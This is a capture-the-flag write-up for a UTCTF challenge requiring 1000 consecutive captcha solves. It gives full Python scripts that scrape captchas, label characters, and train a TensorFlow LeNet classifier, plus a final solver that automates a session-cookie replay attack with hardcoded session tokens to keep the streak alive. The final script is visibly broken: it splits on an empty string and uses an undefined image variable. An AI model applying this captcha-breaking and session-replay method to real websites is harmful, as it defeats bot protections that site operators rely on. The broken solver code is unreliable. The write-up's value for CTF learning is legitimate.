


#### Challenge:

Just solve 1000 captchas. It's super easy.

`http://web1.utctf.live:7132`

---

#### Solution:

We are presented with site that generates `captchas` with `6` `[A-Za-z0-9]` characters like this:

`captcha_example.png` :



We have to solve `1000` of them to get the flag.

I have tried to solve similar challenges in the past usually using python `tesseract`, but oftentimes I was disappointed with its accuracy, therefore I wanted to use this opportunity, to try to train my own `Neural Network (NN)` with `tensorflow`.

Before the training of the `NN`, it is necessary to pre-process the images - ideally convert it to `1-bit color space` and `split and center the characters`.

Since the background in the challenge captchas is static and the letters are inverting the background colors, I decided to get a kind of `golden image` containing only the background first, which would help me to extract the letters after "subtracting" it from the captcha images. To get this golden image I decided to "average out" many of the captcha images. To download them I used following script:

`captcha_downloader.py` :

```python
#!/usr/bin/env python3

import requests
import base64
import os

s = requests.session()

### Download reference captchas to generate golden image
resp = s.get('http://web1.utctf.live:7132/')
for i in range(1,1000):
    img = resp.text \
        .split('data:image/png;base64,')[1] \
        .split('">')[0]

    with open("captchas/captcha_{:03d}.png".format(i), 'wb') as file:
        file.write(base64.b64decode(img))

    solve = "haha"
    resp = s.post('http://web1.utctf.live:7132/', data={'solution': solve})
```

To generate `golden image`, I went over a 1000 images and for each pixel I picked its most common value.

`captcha_golden_merger.py` :

```python
#!/usr/bin/env python3

from PIL import Image, ImageChops, ImageOps, ImageEnhance, ImageFilter

### Generate golden image
histogram = [dict() for k in range(500*150)]

for i in range(1,1000): # loop over all images
    with Image.open("captchas/captcha_{:03d}.png".format(i), 'r') as img:
        pix = img.load()

        for y in range(0,150): # loop over lines
            for x in range(0,500): # loop over pixels
                histogram[y*500+x][pix[x, y]] = histogram[y*500+x].get(pix[x, y], 0 ) + 1


golden_img = Image.new(mode="RGB", size=(500, 150))
golden_pix = golden_img.load()

for y in range(0,150): # loop over lines
    for x in range(0,500): # loop over pixels
        best_key = max(histogram[y*500+x], key=histogram[y*500+x].get)
        golden_pix[x,y] = best_key

golden_img.save("captchas/captcha_golden.png")
golden_img.show()
```

I post-processed the final result in `GIMP` a bit and this is it:

`captcha_golden.png` :



With the golden image ready, it is time for the hard and mundane part - labeling the captchas.
To speed up this effort, we can try to use the `tesseract` as suggestion generator.

`captcha_labeler.py` :

```python
from PIL import Image, ImageChops, ImageOps, ImageEnhance, ImageFilter
import pytesseract
pytesseract.tesseract_cmd = r'/usr/bin/tesseract'
from imutils import paths
import argparse
import imutils
import cv2
import os

def preprocess(image, width, height):
    # grab the dimensions of the image, then initialize
    # the padding values
    (h, w) = image.shape[:2]
    # if the width is greater than the height then resize along
    # the width
    if w > h:
        image = imutils.resize(image, width=width)
    # otherwise, the height is greater than the width so resize
    # along the height
    else:
        image = imutils.resize(image, height=height)

    # determine the padding values for the width and height to
    # obtain the target dimensions
    padW = int((width - image.shape[1]) / 2.0)
    padH = int((height - image.shape[0]) / 2.0)
    # pad the image then apply one more resizing to handle any
    # rounding issues
    image = cv2.copyMakeBorder(image, padH, padH, padW, padW, cv2.BORDER_CONSTANT, None, [255, 255, 255]) # white border
    image = cv2.resize(image, (width, height))
    # return the pre-processed image
    return image

def sort_contours(contours, method="left-to-right"):
	# initialize the reverse flag and sort index
	reverse = False
	i = 0
	# handle if we need to sort in reverse
	if method == "right-to-left" or method == "bottom-to-top":
		reverse = True
	# handle if we are sorting against the y-coordinate rather than
	# the x-coordinate of the bounding box
	if method == "top-to-bottom" or method == "bottom-to-top":
		i = 1
	# construct the list of bounding boxes and sort them from top to
	# bottom
	boundingBoxes = [cv2.boundingRect(c) for c in contours]
	(contours, boundingBoxes) = zip(*sorted(zip(contours, boundingBoxes),
		key=lambda b:b[1][i], reverse=reverse))
	# return the list of sorted contours
	return contours

def detect_characters(image_filename):
    image = cv2.imread(image_filename)
    gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
    # gray = cv2.copyMakeBorder(gray, 8, 8, 8, 8, cv2.BORDER_REPLICATE) # Dont need border

    # threshold the image to reveal the digits
    thresh = cv2.threshold(gray, 0, 255, cv2.THRESH_BINARY_INV | cv2.THRESH_OTSU)[1]

    # find contours in the image
    contours = cv2.findContours(thresh.copy(), cv2.RETR_EXTERNAL, cv2.CHAIN_APPROX_SIMPLE)
    contours = contours[1] if imutils.is_cv2() else contours[0]

    # Sort and take six largest
    contours = sorted(contours, key=cv2.contourArea, reverse=True)[:6]

    # Sort by x (left to right)
    contours = sort_contours(contours)
    return contours

RANGE_MIN=1
RANGE_MAX=1000

orig_directory="captcha_labeled_orig/"
processed_directory="captcha_labeled_processed/"
dataset_directory="captcha_dataset/"

counts = {}
with Image.open("captcha_golden.png", 'r') as golden_img:
    for i in range(RANGE_MIN,RANGE_MAX):
        print(i)
        filename = "captcha_{:03d}.png".format(i)
        with Image.open("captchas/"+filename, 'r') as img:

            # Pre-Processing
            result = ImageChops.difference(img, golden_img)
            result = result.filter(ImageFilter.MedianFilter())
            enhancer = ImageEnhance.Contrast(result)
            result = enhancer.enhance(2)
            result = ImageOps.invert(result)
            result = result.convert('1')
            result = result.filter(ImageFilter.MedianFilter(3))

            result.save('temp.png')

            ## Semi-Manual labeling
            ## I recommend running this script in VS Code Terminal and having the `temp.png` open in it.
            ## That way you can see the image and fix the captcha manually if tesseract gets it wrong.
            captcha = pytesseract.image_to_string(result, lang='eng', config='--psm 6 -c tessedit_char_whitelist="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"')
            captcha = str(captcha)[:6]
            print(captcha)
            fixed_input = input("Enter: ")
            print(bytes(fixed_input, "utf-8"))

            # Save Labeled original and processed images
            if fixed_input != "":
                captcha = fixed_input

            img.save(orig_directory+"captcha_{:03d}_".format(i)+captcha+".png")
            result.save(processed_directory+"captcha_{:03d}_".format(i)+captcha+".png")

            # Save individual characters to build dataset for NN learning
            characters = detect_characters('temp.png')

            # loop over the contours
            character_index = 0
            for character in characters:
                # compute the bounding box for the contour then extract
                # the digit
                (x, y, w, h) = cv2.boundingRect(character)
                image = cv2.imread('temp.png')
                gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
                h=150
                y=0
                roi = gray[y:y + h, x - 5:x + w + 5]

                # Save The character to dataset
                label = captcha[character_index]
                character_index = character_index + 1

                # if the output directory does not exist, create it
                if not os.path.exists(dataset_directory):
                    os.makedirs(dataset_directory)

                # write the labeled character to file
                count = counts.get(label, 1)
                character_file_path = dataset_directory + "{}_{}{}_{}".format(label,("A" if (ord(label)<96) else "Z"),
                    str(count).zfill(6), filename)
                print(character_file_path)
                cv2.imwrite(character_file_path, preprocess(roi, 200, 200))

                # increment the count for the current label
                counts[label] = count + 1
```

The following script can be used for the training of the `Neural Network` itself. In short, it takes the structure under the `dataset` folder created in previous stage and trains the NN based on the labeled images -
the label is in this case the first character of the image name. The output of this script is the `lenet.hdf5` - file representing the `Neural Network` model.

`captcha_trainer.py` :

```python
from sklearn.preprocessing import LabelBinarizer
from sklearn.model_selection import train_test_split
from sklearn.metrics import classification_report
from tensorflow.keras.preprocessing.image import img_to_array
from tensorflow.keras.optimizers import SGD

from lenet import LeNet

import imutils
from imutils import paths
import matplotlib.pyplot as plt
import numpy as np
import cv2
import os

DATASET_FOLDER="captcha_dataset"
MODEL_FILE="lenet.hdf5"

def preprocess(image, width, height):
    # grab the dimensions of the image, then initialize
    # the padding values
    (h, w) = image.shape[:2]
    # if the width is greater than the height then resize along
    # the width
    if w > h:
        image = imutils.resize(image, width=width)
    # otherwise, the height is greater than the width so resize
    # along the height
    else:
        image = imutils.resize(image, height=height)

    # determine the padding values for the width and height to
    # obtain the target dimensions
    padW = int((width - image.shape[1]) / 2.0)
    padH = int((height - image.shape[0]) / 2.0)
    # pad the image then apply one more resizing to handle any
    # rounding issues
    image = cv2.copyMakeBorder(image, padH, padH, padW, padW, cv2.BORDER_CONSTANT, None, [255, 255, 255]) # white border
    image = cv2.resize(image, (width, height))
    # return the pre-processed image
    return image


# initialize the data and labels
data = []
labels = []
# loop over the input images
for imagePath in paths.list_images(DATASET_FOLDER):
    # load the image, pre-process it, and store it in the data list
    image = cv2.imread(imagePath)
    image = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
    # image = preprocess(image, 28, 28)
    image = img_to_array(image)
    data.append(image)
    # extract the class label from the image path and update the
    # labels list
    label = imagePath.split(os.path.sep)[-1].split("_")[0]
    labels.append(label)

# scale the raw pixel intensities to the range [0, 1]
data = np.array(data, dtype="float") / 255.0
labels = np.array(labels)

# partition the data into training and testing splits using 75% of
# the data for training and the remaining 25% for testing
(trainX, testX, trainY, testY) = train_test_split(data, labels, test_size=0.25, random_state=42)
# convert the labels from integers to vectors
lb = LabelBinarizer().fit(trainY)
trainY = lb.transform(trainY)
testY = lb.transform(testY)

print(len(set(labels)))

# initialize the model
print("[INFO] compiling model...")
model = LeNet.build(width=200, height=200, depth=1, classes=len(set(labels)))
opt = SGD(lr=0.01)
model.compile(loss="categorical_crossentropy", optimizer=opt, metrics=["accuracy"])


# train the network
print("[INFO] training network...")
EPOCHS=15
H = model.fit(trainX, trainY, validation_data=(testX, testY), batch_size=100, epochs=EPOCHS, verbose=1)

print(trainX)
print(trainY)
# evaluate the network
print("[INFO] evaluating network...")
predictions = model.predict(testX, batch_size=100)
print(classification_report(testY.argmax(axis=1), predictions.argmax(axis=1), target_names=lb.classes_))


# save the model to disk
print("[INFO] serializing network...")
model.save(MODEL_FILE)


# plot the training + testing loss and accuracy
plt.style.use("ggplot")
plt.figure()
plt.plot(np.arange(0, EPOCHS), H.history["loss"], label="train_loss")
plt.plot(np.arange(0, EPOCHS), H.history["val_loss"], label="val_loss")
plt.plot(np.arange(0, EPOCHS), H.history["accuracy"], label="acc")
plt.plot(np.arange(0, EPOCHS), H.history["val_accuracy"], label="val_acc")
plt.title("Training Loss and Accuracy")
plt.xlabel("Epoch #")
plt.ylabel("Loss/Accuracy")
plt.legend()
plt.show()
```

I was repeating the `labeling` and `training` steps several times with manually checking and curating the dataset files (correcting labeling mistakes) manually. The mistakes were usually well indicated by the wrong accuracy in results. In the end I was able to achieve quite good accuracy - 98% after training:

```text
              precision    recall  f1-score   support

           0       1.00      1.00      1.00        11
           1       1.00      1.00      1.00         4
           2       1.00      1.00      1.00        16
           3       1.00      1.00      1.00         4
           4       1.00      1.00      1.00         9
           5       1.00      1.00      1.00        15
           6       1.00      1.00      1.00        15
           7       1.00      1.00      1.00        14
           8       1.00      1.00      1.00         5
           9       1.00      1.00      1.00        10
           A       1.00      1.00      1.00        15
           B       1.00      1.00      1.00         8
           C       1.00      1.00      1.00        11
           D       1.00      1.00      1.00         9
           E       1.00      1.00      1.00        15
           F       1.00      1.00      1.00        13
           G       1.00      1.00      1.00         8
           H       1.00      1.00      1.00         9
           I       0.00      0.00      0.00        14
           J       1.00      1.00      1.00         8
           K       1.00      1.00      1.00         9
           L       1.00      1.00      1.00         9
           M       1.00      1.00      1.00         8
           N       1.00      1.00      1.00        10
           O       1.00      1.00      1.00         9
           P       1.00      1.00      1.00         8
           Q       1.00      1.00      1.00         3
           R       1.00      1.00      1.00        20
           S       1.00      1.00      1.00         7
           T       1.00      1.00      1.00         8
           U       1.00      1.00      1.00        10
           V       1.00      1.00      1.00         9
           W       1.00      1.00      1.00        10
           X       1.00      1.00      1.00         8
           Y       1.00      1.00      1.00         8
           Z       1.00      1.00      1.00        10
           a       1.00      1.00      1.00         5
           b       1.00      1.00      1.00         6
           c       1.00      1.00      1.00        10
           d       1.00      1.00      1.00         7
           e       1.00      1.00      1.00        17
           f       1.00      1.00      1.00         9
           g       1.00      1.00      1.00        24
           h       1.00      1.00      1.00        18
           i       1.00      1.00      1.00        11
           j       1.00      1.00      1.00         6
           k       1.00      1.00      1.00        12
           l       0.30      1.00      0.46         6
           m       1.00      1.00      1.00         9
           n       1.00      1.00      1.00        15
           o       1.00      1.00      1.00         5
           p       1.00      1.00      1.00        10
           q       1.00      1.00      1.00         7
           r       1.00      1.00      1.00         5
           s       1.00      1.00      1.00        12
           t       1.00      1.00      1.00        10
           u       1.00      1.00      1.00        18
           v       1.00      1.00      1.00        19
           w       1.00      1.00      1.00         7
           x       1.00      1.00      1.00        18
           y       1.00      1.00      1.00        17
           z       1.00      1.00      1.00        12

    accuracy                           0.98       654
   macro avg       0.97      0.98      0.98       654
weighted avg       0.97      0.98      0.97       654
```

Only thing that was preventing me from reaching a 100% was the fact that in the captcha's font the `uppercase i = I` was identical to `lowercase L = l`.
This was quite a problem because the chance of getting 1000 subsequent captchas right by guessing `I vs l` was 0. Luckily Aenniw saved me. He noticed that the captcha progress is saved in session and when the second-to-last session is replayed, and the previous captcha is solved correctly, the new captcha is different.

With this knowledge, we put together the following script that tries to solve a captcha, if it is successful it saves the second-to-last and last sessions and continues, if not it loads the second-to-last session, solves the captcha from the last session to get `new and different` captcha which the neural network might be able to solve (meaning it either doesn't contain `I vs l` or we will guess it correctly).

`captcha.py` :

```python
import requests
import base64
from io import BytesIO
from PIL import Image, ImageChops, ImageOps, ImageEnhance, ImageFilter


from sklearn.preprocessing import LabelBinarizer
from sklearn.model_selection import train_test_split
from sklearn.metrics import classification_report
from tensorflow.keras.preprocessing.image import img_to_array
from tensorflow.keras.optimizers import SGD
from tensorflow.keras.models import load_model

from lenet import LeNet

import imutils
from imutils import paths
import matplotlib.pyplot as plt
import numpy as np
import argparse
import cv2
import os

def sort_contours(cnts, method="left-to-right"):
    # initialize the reverse flag and sort index
    reverse = False
    i = 0
    # handle if we need to sort in reverse
    if method == "right-to-left" or method == "bottom-to-top":
        reverse = True
    # handle if we are sorting against the y-coordinate rather than
    # the x-coordinate of the bounding box
    if method == "top-to-bottom" or method == "bottom-to-top":
        i = 1
    # construct the list of bounding boxes and sort them from top to
    # bottom
    boundingBoxes = [cv2.boundingRect(c) for c in cnts]
    (cnts, boundingBoxes) = zip(*sorted(zip(cnts, boundingBoxes),
        key=lambda b:b[1][i], reverse=reverse))
    # return the list of sorted contours
    return cnts


def preprocess(image, width, height):
    # grab the dimensions of the image, then initialize
    # the padding values
    (h, w) = image.shape[:2]
    # if the width is greater than the height then resize along
    # the width
    if w > h:
        image = imutils.resize(image, width=width)
    # otherwise, the height is greater than the width so resize
    # along the height
    else:
        image = imutils.resize(image, height=height)

    # determine the padding values for the width and height to
    # obtain the target dimensions
    padW = int((width - image.shape[1]) / 2.0)
    padH = int((height - image.shape[0]) / 2.0)
    # pad the image then apply one more resizing to handle any
    # rounding issues
    image = cv2.copyMakeBorder(image, padH, padH, padW, padW, cv2.BORDER_CONSTANT, None, [255, 255, 255]) # white border
    image = cv2.resize(image, (width, height))
    # return the pre-processed image
    return image


DATASET_FOLDER="dataset"
MODEL_FILE="lenet.hdf5"

model = load_model(MODEL_FILE)

labels = []
# loop over the input images
for imagePath in paths.list_images(DATASET_FOLDER):
    # extract the class label from the image path and update the
    # labels list
    label = imagePath.split(os.path.sep)[-1].split("_")[0]
    labels.append(label)
labels = np.array(labels)
lb = LabelBinarizer().fit(labels)

s = requests.session()

# Bootstrap the last and second-to-last sessions manually
checkpoint2 = "u.SS2JarpnW+mnhCO2qZnme/tD2Tq51P+BgRh06yfxeEQjh1TRWQ==.4UEc5iL0A95YoKeaImxIbg==.Bc8Vf3eSKrExrM7JCJr8Wg=="
checkpoint1 = "u.u5UepcovT/SVYiFjTv/B+4FNqHtVLCi9j5FDv2MlpWRGJ3aFBg==.deen/zbS8gc2GCP6IXMz3w==.j98h5HVb7+oqZITJoQSOpQ=="
print(s.cookies)
s.cookies.set("session", checkpoint1, domain="web1.utctf.live")
print(s.cookies)

resp = s.get('http://web1.utctf.live:7132/')

with Image.open("../captchas/capcha_golden.png", 'r') as golden_img:
    solved = 0
    captcha = ""
    while (solved <= 1001):
        segments = resp.text.split('')[0]

        solved = int(resp.text.split('You have solved ')[1].split(' captchas in a row correctly!')[0])
        print(f"You have solved {solved}")

        if "utflag" in resp.text:
            print("##################### FLAG ####################")
            flag = resp.text.split('utflag')[1].split('}')[0]
            print(f"utflag[{flag}]")

        # We were correct, lets save the session
        if captcha != "" and solved != 0:
            checkpoint2 = checkpoint1
            checkpoint1 = s.cookies.get_dict()["session"]
            print(checkpoint1)
            pass

        # We were wrong, replay the second-to-last session to get new captcha with current score
        if captcha != "" and solved == 0:
            s.cookies.set("session", checkpoint2, domain="web1.utctf.live")
            resp = s.get('http://web1.utctf.live:7132/')
            continue

        captcha = ""
        with Image.open(BytesIO(base64.b64decode(img))) as img:

            ## Preprocess whole image
            result = ImageChops.difference(img, golden_img)
            result = result.filter(ImageFilter.MedianFilter())
            enhancer = ImageEnhance.Contrast(result)
            result = enhancer.enhance(2)
            result = ImageOps.invert(result)
            result = result.convert('1')
            result = result.filter(ImageFilter.MedianFilter(3))

            result.save("temp.png")

            try:
                # Lets go char by char
                image = cv2.imread("temp.png")
                gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
                # gray = cv2.copyMakeBorder(gray, 8, 8, 8, 8, cv2.BORDER_REPLICATE) # Dont need border

                # threshold the image to reveal the digits
                thresh = cv2.threshold(gray, 0, 255, cv2.THRESH_BINARY_INV | cv2.THRESH_OTSU)[1]

                # find contours in the image
                cnts = cv2.findContours(thresh.copy(), cv2.RETR_EXTERNAL, cv2.CHAIN_APPROX_SIMPLE)
                cnts = cnts[1] if imutils.is_cv2() else cnts[0]

                # Sort and take six largest
                cnts = sorted(cnts, key=cv2.contourArea, reverse=True)[:6]

                # Sort by x (left to right)
                cnts = sort_contours(cnts)

                # loop over the contours
                letter_index = 0

                for c in cnts:
                    # compute the bounding box for the contour then extract
                    # the digit
                    (x, y, w, h) = cv2.boundingRect(c)
                    # print((x, y, w, h))

                    h=150
                    y=0
                    roi = gray[y:y + h, x - 5:x + w + 5]

                    rrroi = preprocess(roi, 200, 200)
                    rrroi = img_to_array(rrroi)
                    data = []
                    data.append(rrroi)
                    # scale the raw pixel intensities to the range [0, 1]
                    data = np.array(data, dtype="float") / 255.0

                    # Ask the neural network to make a prediction
                    prediction = model.predict(data)

                    # Convert the one-hot-encoded prediction back to a normal letter
                    captcha = captcha + lb.inverse_transform(prediction)[0]

            # we are trying to control-c out of the script, so break from the
            # loop (you still need to press a key for the active window to
            # trigger this)
            except KeyboardInterrupt:
                print("[INFO] manually leaving script")
                break

        print(captcha)

        # Send solution
        resp = s.post('http://web1.utctf.live:7132/', data={'solution': str(captcha)})

```

In the hindsight, we realized that the `ReRe` in the challenge name was hinting to the session replay attack `Aenniw` found out and then it occurred to me, that this challenge was probably solvable even with less performant OCR tools like `tesseract` after all, which made this whole neural network training solution a bit over-complicated but hey, at least I tried out the `tensorflow`. I regret nothing.

---

<details><summary>FLAG:</summary>

```
utflag{skibidi_bop_mm_dada_uLG7Jrd5hP}
```

</details>
<br/>
